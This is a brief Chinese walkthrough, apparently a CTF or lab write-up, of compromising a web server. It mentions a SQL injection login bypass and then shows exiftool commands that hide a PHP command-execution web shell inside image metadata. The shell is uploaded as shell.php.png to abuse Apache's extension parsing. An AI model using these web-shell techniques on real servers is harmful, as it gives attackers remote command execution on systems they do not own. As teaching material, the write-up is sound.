








## nmap



## dirsearch



## 80端口

简单sql注入绕过登录



文件只允许上传图片，尝试过后不是前端验证，并且直接传一句话木马也会被识别





将命令注入正常图片中，生成一个图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```

生成的图片马可以成功上传，但是想要让php代码解析就不能以图片格式上传，中间件是apache，可能存在apache解析漏洞，

回到index.php可以看到刚才上传的图片，将文件名改为`shell.php.png`



index.php下有图片，可以查看图片的路径，替换为自己上传的文件名即可访问



